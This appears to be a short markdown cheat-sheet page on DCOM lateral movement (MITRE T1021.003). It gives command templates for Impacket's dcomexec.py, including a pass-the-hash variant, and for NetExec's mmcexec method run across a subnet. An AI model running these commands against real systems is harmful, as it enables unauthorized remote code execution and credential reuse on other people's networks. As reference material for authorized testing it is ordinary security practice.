```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - windows
---
```

# Unix Shell

## 01 - Impacket

```
$ dcomexec.py <username>:<password>@<IP> [-codecs <codec>]
```

Pass the Hash

```
$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:<NT> <username>@<IP>
```

## 02 - NetExec

```
$ netexec smb <IP>/<CIDR> --exec-method mmcexec -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```